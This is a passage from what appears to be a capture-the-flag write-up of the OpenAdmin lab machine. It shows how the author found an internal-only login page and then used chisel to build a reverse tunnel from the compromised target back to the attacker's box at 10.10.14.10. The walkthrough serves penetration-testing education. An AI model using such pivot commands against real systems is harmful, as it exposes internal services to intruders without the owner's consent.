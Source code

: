 Huh ok. So it's using `HTTP`, and it responded from `internal.openadmin.htb`

I'll try using ``curl`` on that same port:

```
curl localhost:52846
```

The response was a login page (document head omitted for brevity):

```html
<body>
      <h2>Enter Username and Password</h2>
      <div class = "container form-signin">
        <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
                </div> <!-- /container -->
      <div class = "container">
         <form class = "form-signin" role = "form"
            action = "/index.php" method = "post">
            <h4 class = "form-signin-heading"></h4>
            <input type = "text" class = "form-control"
               name = "username"
               required autofocus></br>
            <input type = "password" class = "form-control"
               name = "password" required>
            <button class = "btn btn-lg btn-primary btn-block" type = "submit"
               name = "login">Login</button>
         </form>
      </div>
   </body>
```



#### Tunnel to internal

I want to take a more thorough look at this login form, but this port is not exposed to the internet. No problem: I already have the perfect tool downloaded onto the target box: **chisel**. Chisel is used for forming tunnels.

> This can get a little confusing, so I'll lay out what ports I will be using:
>
> 52846: port on the target box that I want to create a tunnel to
> 52847: port on the attacker box that chisel will use to build the tunnel
> 52848: port on the attacker box to connect to, if I want to reach 52846 on the target box.

On the attacker box, start up chisel server for a reverse tunnel:

```bash
./chisel server -p 52847 -reverse -v
```

On the target box, start up chisel in client mode, mapping 52846 to 52848 and connecting back to the attacker box on port 52847.

```bash
./chisel client 10.10.14.10:52847 R:52848:127.0.0.1:52846
```
